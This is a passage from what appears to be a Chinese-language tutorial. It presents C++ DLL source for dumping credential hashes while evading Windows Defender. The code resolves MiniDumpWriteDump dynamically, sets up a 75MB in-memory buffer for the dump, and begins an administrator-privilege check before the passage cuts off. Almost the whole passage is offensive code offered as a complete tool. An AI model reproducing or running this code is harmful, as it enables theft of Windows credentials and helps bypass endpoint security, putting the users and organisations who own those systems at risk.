 ```cpp

    case IoFinishCallback:
        // 在完成写入数据时，设置 Status 为 S_OK
        callbackOutput->Status = S_OK;
        break;

    default:
        return true;
    }
    return TRUE;
}
```



## 完整代码

以下是绕过WD的dumphash代码：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#include <fstream>
#define _CRT_SECURE_NO_WARNINGS

// MiniDumpWriteDump 函数的类型定义
typedef BOOL(WINAPI* _MiniDumpWriteDump)(
    HANDLE hProcess, DWORD ProcessId,
    HANDLE hFile, MINIDUMP_TYPE DumpType,
    PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
    PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
    PMINIDUMP_CALLBACK_INFORMATION CallbackParam);
_MiniDumpWriteDump MMiniDumpWriteDump = (_MiniDumpWriteDump)GetProcAddress(
// 加载 Dbghelp.dll 并获取 MiniDumpWriteDump 函数的地址    
LoadLibraryA("Dbghelp.dll"), "MiniDumpWriteDump");

// 为内存转储分配一个 75MB 的内存区域
LPVOID buffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;
DWORD bytesWritten = 0;


// 检查是否具有管理员权限
BOOL CheckPrivilege() 
{
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;

    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS, 0, 0, 0, 0,
        &AdministratorsGroup);

    if (state)
    {
```
